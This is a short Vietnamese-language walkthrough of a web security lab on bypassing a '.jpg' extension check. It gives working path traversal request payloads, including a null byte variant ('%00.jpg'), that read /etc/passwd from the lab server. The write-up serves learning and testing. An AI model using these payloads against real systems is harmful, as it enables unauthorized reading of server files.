




# Lab 06: Null Byte Extension Bypass

## Mục tiêu
Đọc file `/etc/passwd` trong khi ứng dụng chỉ chấp nhận `filename` kết thúc bằng `.jpg`.

## Đề bài

<br><br>

## Bước 1: Lấy request ảnh
Mở ảnh sản phẩm để lấy endpoint:

```http
GET /image?filename=53.jpg
```


<br><br>

## Bước 2: Thử traversal cơ bản
Payload thường:

```http
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd HTTP/2
```

Request này không qua được vì không thỏa điều kiện đuôi `.jpg`.


<br><br>

## Bước 3: Bypass bằng null byte
Thêm `%00` trước `.jpg`:

```http
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd%00.jpg HTTP/2
```

Giải thích ngắn: phần kiểm tra chuỗi vẫn thấy đuôi `.jpg`, nhưng khi xử lý đường dẫn thực tế, null byte làm cắt chuỗi tại `%00`, nên file được đọc là `/etc/passwd`.


<br><br>

## Kết quả
Response trả về nội dung `/etc/passwd`, lab được solve.
